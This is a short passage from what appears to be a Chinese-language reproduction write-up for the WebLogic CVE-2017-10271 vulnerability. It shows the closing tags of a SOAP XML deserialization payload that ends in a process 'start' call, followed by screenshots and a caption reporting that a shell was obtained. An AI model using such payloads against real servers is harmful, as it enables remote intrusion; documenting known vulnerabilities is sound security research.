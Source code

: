 ```
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![02](./img/weblogic_CVE-2017-10271/02.png)

成功获取shell：

![01](./img/weblogic_CVE-2017-10271/01.png)

